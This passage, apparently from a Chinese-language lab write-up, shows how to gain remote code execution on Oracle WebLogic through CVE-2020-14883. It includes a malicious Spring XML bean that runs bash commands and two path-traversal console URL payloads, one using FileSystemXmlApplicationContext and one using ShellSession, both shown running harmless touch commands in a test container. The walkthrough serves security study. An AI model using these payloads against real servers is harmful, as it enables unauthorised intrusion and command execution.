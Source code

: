 ![](https://img.wukaipeng.com/2023/11/07-070820-wnOWJt-image-20231107070820297.png)

目前权限不足，要想实现 RCE 需要借助另外一个漏洞。

### CVE-2020-14883

**利用方式一 ：**

利用类 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 反序列化漏洞上传文件，这是一个通杀的漏洞，所有版本都适用：

新建一个 `rce.xml` 文件

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/wukaipeng]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后利用 DVWA 上传，得到公网可访问链接 `http://DVWA_IP_ADDERSS:PORT/hackable/uploads/rce.xml`

![](https://img.wukaipeng.com/2023/11/07-071901-1rD79B-image-20231107071900897.png)

访问：`http://YOUR_IP_ADDRESS/console/images/%252e%252e%252fconsole.portal?
_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.su
pport.FileSystemXmlApplicationContext("http://example.com/rce.xml")`

其中 `http://example.com/rce.xml` 替换成刚才上传的地址：

![](https://img.wukaipeng.com/2023/11/07-074256-mEVN6R-image-20231107074256077.png)

去到容器中，可以看到我们的文件也上传成功了：

![](https://img.wukaipeng.com/2023/11/07-074418-NlE1jX-image-20231107074418579.png)

---

**利用方式二：**

利用类 `com.tangosol.coherence.mvel2.sh.ShellSession` 实现，Weblogic 12.2.1 以上适用

```
http://YOUR_IP_ADDRESS:PORT/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/wukaipeng2');")
```
